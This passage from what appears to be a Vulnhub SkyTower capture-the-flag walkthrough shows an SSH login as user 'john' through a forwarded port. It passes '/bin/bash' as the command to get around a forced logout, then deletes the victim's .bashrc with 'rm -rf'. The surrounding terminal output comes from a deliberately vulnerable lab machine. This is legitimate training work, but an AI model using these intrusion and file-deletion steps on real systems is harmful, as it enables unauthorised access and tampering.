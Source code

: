 ![Untitled](/Vulnhub-Files/img/Skytower/Untitled%205.png)

Now in above picture I redirected the 22 port to 2222 port on victims machine and while accessing it losses connection .

So here we have to provide a command to get executed when get the shell and then delete the .bashrc file so that we don’t get this exit outs →

```bash
┌──(kali㉿kali)-[~/Downloads/Vulnhub/SkyTower]
└─$ sudo ssh john@127.0.0.1 -p 2222 '/bin/bash'   
john@127.0.0.1 is password: 
whoami
john
id
uid=1000(john) gid=1000(john) groups=1000(john)
ls -al
total 24
drwx------ 2 john john 4096 Jun 20  2014 .
drwxr-xr-x 5 root root 4096 Jun 20  2014 ..
-rw------- 1 john john    7 Jun 20  2014 .bash_history
-rw-r--r-- 1 john john  220 Jun 20  2014 .bash_logout
-rw-r--r-- 1 john john 3437 Jun 20  2014 .bashrc
-rw-r--r-- 1 john john  675 Jun 20  2014 .profile
rm -rf .bashrc
ls -al
total 20
drwx------ 2 john john 4096 Sep 12 03:41 .
drwxr-xr-x 5 root root 4096 Jun 20  2014 ..
-rw------- 1 john john    7 Jun 20  2014 .bash_history
-rw-r--r-- 1 john john  220 Jun 20  2014 .bash_logout
```